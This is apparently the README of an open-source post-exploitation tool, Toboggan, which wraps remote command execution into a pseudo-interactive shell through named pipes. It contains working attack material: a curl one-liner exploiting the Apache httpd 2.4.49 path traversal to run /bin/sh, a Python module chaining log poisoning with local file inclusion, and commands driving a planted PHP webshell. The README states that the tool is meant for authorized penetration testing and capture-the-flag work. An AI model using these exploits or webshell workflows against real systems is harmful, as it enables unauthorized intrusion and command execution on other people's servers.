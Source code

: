 # Toboggan

🛝 Slide into post-exploitation from RCE with ease! Toboggan is your go-to tool that wraps your remote command execution into a semi-interactive shell, making the post-exploitation phase a breeze.

<p align="center">
    <img width="350" src="/media/toboggan-coin.jpg" alt="Material Bread logo">
</p>

Getting started with toboggan is as smooth. You can do this by pulling directly from the repository:
```shell
python3 -m pip install 'toboggan@git+https://github.com/n3rada/toboggan.git'
``` 

Or, by using [`pipx`](https://pypa.github.io/pipx/) - and you should -, give this a whirl:
```shell
python3 -m pipx install 'git+https://github.com/n3rada/toboggan.git'
```

Thus, you can execute it with the following command:
```shell
toboggan -m /path/to/your/rce.py -i
```

This command loads your rce.py module and propels you into an interactive session for some remote fun. If you're in the mood for a subtler, semi-interactive experience, just drop the `-i` option.

## Built-in modules
### WebShell
Don't have a proper Python3 module on hand? Struck gold with a simple webshell.php? No worries! If your webshell just needs a cmd argument to spill the beans, do the following:
```shell
toboggan -u 'http://192.168.193.19/tmp/webshell.php?cmd'
```

Safety first. Always password-protect your shells. If you're the cautious type (and you should be), use Toboggan like this:
```shell
toboggan -u 'http://192.168.193.19/tmp/webshell.php?cmd' -p 'password'='@l/=$,dsfsdfm'
```

### System command
If it's a waste of time for you to build a python3 module because you don't like programming, and the vulnerability is easily exploitable with a command line, don't worry, you can use the `-o` or `--os` parameter and pass your command line with the `||cmd||` placeholder. For example, if you encounter a server running with `Apache httpd 2.4.49`, you can directly use:
```shell
toboggan -o 'curl -s --path-as-is -d "echo Content-Type: text/plain; echo; ||cmd||" "http://192.168.216.188/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"'
```

## `rce.py` module
An RCE (Remote Code Execution) Python3 module is essentially a Python3 source code crafted to manage your remote code execution. For a module to be compatible with Toboggan, it **must** include a method named **execute**. This method **should have two parameters**: command of type str and timeout of type float.

Here's an example of an RCE module that leverages Log Pollution combined with Local File Inclusion. Admittedly, it's a bit pesky to replay:
```python
# Buit-in imports
import re

# Third party library imports
import httpx

def execute(command: str, timeout: float = None) -> str:
    # Remove the User-Agent header
    response = httpx.get(
        url="http://beachvolley/pong/index.php",
        params={
            "page": r"\..\..\..\..\..\..\..\..\..\..\\xampp\apache\logs\access.log",
            "cmd": command,
        },
        # ||BURP||
        timeout=timeout,
        verify=False,
    )

    # Check if the request was successful
    response.raise_for_status()

    if match := re.search(
        pattern=r'\|\|START_CMD\|\|(.+?)\|\|END_CMD\|\|',
        string=response.text,
        flags=re.IGNORECASE | re.DOTALL
    ):
        return match.group(1).strip()
```

Remember, this setup is module-dependent. For instance, if your module necessitates `proxychains`, you can effortlessly invoke `toboggan` as shown below:
```shell
proxychains -q toboggan /path/to/your/rce.py
```

### Interactivity methods used

#### Unix
The Unix environment offers a plethora of inter-process communication (IPC) mechanisms. One such fascinating tool is the mkfifo, colloquially known as a "named pipe". This one-way IPC is often a go-to when one wishes to emulate a remote interactive shell session over an inherently non-interactive medium - think HTTP requests or rudimentary command execution interfaces.

At its heart, a named pipe, or FIFO (First In, First Out), is an avenue to smoothly transition through an RCE in restrictive scenarios, such as those barricaded behind firewalls, making it feel almost like you're operating in a pseudo-TTY.

**Why the insistence on a separate polling thread**? Imagine sending a command with an indefinite waiting period (like the notorious `top` or the sluggish `sleep 10000`). Without a distinct thread to handle these, the main application would be ensnared in a deadlock, patiently awaiting the command's conclusion. Enter the read thread. Its primary role is to juggle the outputs of these prolonged commands, ensuring the main loop is unimpeded and ever-ready for fresh input or commands.

#### Windows
Not done yet

## Contributing

`toboggan` is an open-source project, and I welcome contributions. Feel free to submit issues, feature requests, or pull requests on the GitHub repository. In order to create a Pull Request, you can follow those steps:
- Fork the project
- Create your feature branch (`git checkout -b my-new-feature`)
- Commit your changes (`git commit -Sam 'Added some feature'`)
- Push to the branch (`git push origin my-new-feature`)
- Create new **Pull Request**

### Setup

Recommended way for developping inside this project is by using `poetry`. Once this repository cloned, you just have to type `poetry shell` to get your environment ready. 

### Test your implementation
If you want to create a `pipx` special installation, you can do the following command inside the root of the project:
```shell
pipx install . --suffix '-test'
```

### Building a proper `pip` package
If you want to try building the tool with a real package, you firstly run `poetry build` and then:
```shell
python3 -m pip install dist/toboggan*.whl --force-reinstall
```

---

_N.B._ If you really want to use old maneers, you can still create a `requirements.txt` file using the following `poetry` commands:
```shell
poetry export -f requirements.txt > requirements.txt
```

## Disclaimer
Toboggan is intended for use in legal penetration testing, Capture The Flag (CTF) competitions, or other authorized and ethical security assessments. Unauthorized use of this tool on systems you do not own or without proper authorization may be illegal. Please use "Toboggan" responsibly and in compliance with applicable laws and regulations.

## License
This project is licensed under the MIT License. See the LICENSE file for more details.
